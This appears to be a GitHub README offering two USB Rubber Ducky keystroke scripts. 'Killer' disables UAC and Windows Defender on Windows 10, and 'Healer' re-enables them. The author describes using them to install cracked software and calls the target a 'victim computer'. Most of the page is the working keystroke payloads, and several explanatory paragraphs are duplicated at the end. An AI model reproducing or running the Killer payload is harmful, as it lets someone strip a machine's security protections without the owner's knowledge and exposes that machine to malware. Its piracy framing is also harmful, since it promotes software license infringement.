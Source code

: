 # Rubber-Ducky_Disable_W10-Defender_Technician-Edition
A quickly script for Rubber Ducky to disable w10 defender on large scale

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/master/img/main_win10.png "SnapChat_Leak_2018-by-Jonny-Banana")

In my activities as a technician I have to format many computers during the month, and as many refuse to buy the license </br>
i have to use a lot of crack (although I do not recommend every time, but the money they pull at the time ...).

Since the windows 10 defenses are slightly improved compared to the previous ones (even if it is still punctured like a colander ...),</br> I had the need to write a quick rubber ducky script that would disable Windows Defender on windows 10 platforms (the more installed system in our time).

I have also added an additional script that reports UAC and windows defender to the recommended settings.
The Scripts are two: Killer and Healer, the first disables and the second of course rehabilitates everything.

<h2>Killer</h2>

As you can see in the first script I set first the initial delay to 2000 ms, but I suggest to increase up to 5000/10000 ms according to the victimized computer, the more powerful the computer is and the less it will read the DUCKY drivers when it comes attached to the victim computer for the first time.

After disabling the UAC control, note that I have used only commands that disable the various functions from interface GUAR, and without closing the final window this to allow you to see if the script worked even if you were not careful ....

Once disabled The UAC was enough to type the string "virus pro" in the windows bar, I chose "virus pro" as it can work both with my native language (virus protection) and in English (virus protection) thus making it multilingual script, also because in Italy it is so much whether these things affect 100 people ....

DELAY 2000</BR>
REM  first disable UAC</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING uac </BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
LEFT</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
REM it's time to disable the fuckin' defender....</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING virus pro</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>

<h2>Healer</h2>

DELAY 2000</BR>
REM first enable the fuckin' defender....</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING virus pro</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
REM alt f4 close the window</BR>
ALT F4</BR>
REM it's time to enable UAC</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING uac </BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
UPARROW</BR>
DELAY 200</BR>
UPARROW</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>


<h3>Tested Builds</h3>

1803 (latest oct. 2018)



<h3>Killer</h3>

As you can see in the first script I set first the initial delay to 2000 ms, but I suggest to increase up to 5000/10000 ms according to the victimized computer, the more powerful the computer is and the less it will read the DUCKY drivers when it comes attached to the victim computer for the first time.

After disabling the UAC control, note that I have used only commands that disable the various functions from interface GUAR, and without closing the final window this to allow you to see if the script worked even if you were not careful ....

Once disabled The UAC was enough to type the string "virus pro" in the windows bar, I chose "virus pro" as it can work both with my native language (virus protection) and in English (virus protection) thus making it multilingual script, also because in Italy it is so much whether these things affect 100 people ....

<h3>Killer</h3>
